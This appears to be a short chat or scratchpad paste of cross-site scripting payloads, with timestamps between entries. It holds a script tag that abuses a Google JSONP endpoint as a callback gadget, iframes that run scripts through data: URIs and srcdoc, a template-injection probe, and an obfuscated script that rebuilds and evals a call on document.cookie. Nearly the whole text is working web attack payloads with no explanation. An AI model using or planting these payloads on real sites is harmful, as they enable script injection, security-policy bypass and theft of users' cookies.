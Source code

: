 # rrr
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
[5:16 PM]
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/{{1330+7}} POC_DZ_LAB/"></script>'></iframe>
[5:16 PM]
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
[5:17 PM]
<script>x=([]+/alert/g).substr(1,5);w='seikooc'.split("").reduce((acc, char) => char + acc, "");bom='document,document,document';hack=[...new Set(bom.split(","))].join(",");z=x+"("+hack+'.'+w+")";z;eval(z);</script>
<iframe src="https://github.com/"></iframe>
